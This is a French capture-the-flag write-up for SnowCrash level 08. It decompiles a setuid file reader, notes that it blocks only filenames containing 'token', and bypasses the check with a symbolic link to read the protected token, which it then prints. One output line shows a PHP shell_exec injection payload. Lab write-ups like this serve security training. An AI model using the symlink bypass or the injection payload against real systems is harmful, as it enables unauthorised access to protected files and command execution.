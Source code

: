 
# **Level 08**

Pour le level08, on a un executable et un fichier `token` dans le repertoire courant


```
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

Lorsque l'on execute `level08` avec le fichier `token` comme argument ca nous qu'on a pas les droits

```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

Lorsque l'on execute `level08` avec un autre fichier, ca affiche son contenu

```
level08@SnowCrash:~$ ./level08 /var/crash/level06f 
[x {${shell_exec(getflag)}}]
```

On va decompiler l'executable pour mieux l'analyser

```
int32_t main(int32_t argc, char** argv, char** envp)
{
    char** envp_1 = envp;
    void* gsbase;
    int32_t eax_2 = *(gsbase + 0x14);
    if (argc == 1)
    {
        printf("%s [file to read]\n", *argv);
        exit(1);
        /* no return */
    }
    if (strstr(argv[1], "token") != 0)
    {
        printf("You may not access '%s'\n", argv[1]);
        exit(1);
        /* no return */
    }
    int32_t fd = open(argv[1], 0);
    if (fd == 0xffffffff)
    {
        err(1, "Unable to open %s", argv[1]);
        /* no return */
    }
    void buf;
    ssize_t nbytes = read(fd, &buf, 0x400);
    if (nbytes == 0xffffffff)
    {
        err(1, "Unable to read fd %d", fd);
        /* no return */
    }
    ssize_t eax_20 = write(1, &buf, nbytes);
    if (eax_2 == *(gsbase + 0x14))
    {
        return eax_20;
    }
    __stack_chk_fail();
    /* no return */
}
```

En regardant ca on voit que le code nous refuse l'acces uniquement parce que le nom du fichier est `token` donc si on trouve un moyen d'appeler le fichier en modifiant son nom, on devrait pouvoir l'ouvrir

Pour ca on va faire un lien symbolique sur le fichier `token`

```
ln -s /home/user/level08/token symlinklevel08
```

Et executer `level08` en passant notre lien symboliaue en argument

```
level08@SnowCrash:~$ ./level08 /var/crash/symlinklevel08 
quif5eloekouj29ke0vouxean
```



> ### NEXT : [Level 09](/level09/resources/README.md)
